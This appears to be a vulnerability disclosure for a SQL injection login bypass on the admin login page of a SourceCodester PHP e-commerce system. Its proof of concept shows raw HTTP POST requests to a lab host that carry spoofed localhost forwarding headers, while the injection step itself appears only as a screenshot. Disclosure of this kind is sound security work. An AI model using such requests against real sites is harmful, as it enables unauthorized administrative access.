 # ecommerce-Universal password bypasses login verification(sqli)
## Description
    There is a SQL injection permission bypass vulnerability in the /ecommerce/admin/login.php interface of the commerce website.
## source code
    https://www.sourcecodester.com/php/13524/e-commerce-system-using-phpmysqli.html
## Author
    yangfan2@webray.com.cn inc  
## Proof of Concept
1. Page returned after entering incorrect password

```
POST /ecommerce/admin/login.php HTTP/1.1
Host: 172.20.10.166:8080
Content-Length: 41
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.20.10.166:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,imag	e/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.20.10.166:8080/ecommerce/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g4gppk342k4t3gn6dlmav29rr0
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

user_email=janobe&user_pass=123&btnLogin=
```

| ![](https://raw.githubusercontent.com/0xffaaa/cve/main/ecommerce-Universal%20password%20bypasses%20login%20verification.assets/image-20240822152914482.png) |
| ------------------------------------------------------------ |



2. Enter the correct password to return to the page

```
POST /ecommerce/admin/login.php HTTP/1.1
Host: 172.20.10.166:8080
Content-Length: 43
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.20.10.166:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,imag	e/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://172.20.10.166:8080/ecommerce/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g4gppk342k4t3gn6dlmav29rr0
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

user_email=janobe&user_pass=admin&btnLogin=
```

| ![image-20240822161628961](https://raw.githubusercontent.com/0xffaaa/cve/main/ecommerce-Universal%20password%20bypasses%20login%20verification.assets/image-20240822161628961.png) |
| ------------------------------------------------------------ |

3. Bypassing permission verification through sql injection

| ![](https://raw.githubusercontent.com/0xffaaa/cve/main/ecommerce-Universal%20password%20bypasses%20login%20verification.assets/image-20240822153239132.png) |
| ------------------------------------------------------------ |

